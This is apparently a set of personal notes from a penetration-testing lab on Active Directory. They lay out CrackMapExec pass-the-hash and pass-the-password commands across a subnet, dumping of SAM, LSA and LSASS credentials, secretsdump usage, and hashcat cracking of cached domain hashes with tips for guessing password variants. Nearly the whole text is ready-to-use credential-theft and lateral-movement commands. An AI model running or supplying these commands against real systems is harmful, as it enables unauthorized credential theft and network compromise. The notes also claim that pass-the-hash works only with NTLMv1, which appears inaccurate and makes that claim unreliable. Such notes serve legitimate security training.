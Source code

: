 Allows us to access credentials that may not be dumped with secretsdump 

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth -M lsassy`

There's also a database for CME called the `cmedb`

### Pass Attacks Lab

Example attack

Run a pass the password attack with the credentials recovered from our initial attacks then use the access 
found with CME to start dumping data

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Pass the hash attacks *only work with NTLMv1*

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth`

Run CME to dump the SAM hashes when we pwn some machines, the hashes will be added to the cmedb

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --sam`

Enumerate the shares

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --shares`

Dump the LSA, will also be dumped by secretsdump

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --lsa`

mscache hashes (DCC2) will be dumped and can be cracked so look for Domain Administrator account names

`hashcat -m 2100 -O hash.txt rockyou.txt`

If the password has a date try incrementing it, if it has multiple symbols e.g. !!!, try adding an additional 
symbol

Use CME modules to see what else the credentials can do (GPP password, impersonate, keepass file discovery, 
etc.)

`crackmapexec smb -L`

Run lsassy to dump any secrets stored in memory (NTLM hashes of logged in users)

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth -M lsassy`

Use the CME DB to view hosts, credentials, shares, etc. that were found while using CME

### Dumping and Cracking Hashes

Run secretsdump on a target you have credentials for

`secretsdump.py DOMAIN.com/user:password@10.0.0.1`

Grab SAM hashes for the users, DCC2 hashes, cleartext passwords, wdigest (older protocol, enabled by default 
on older systems)
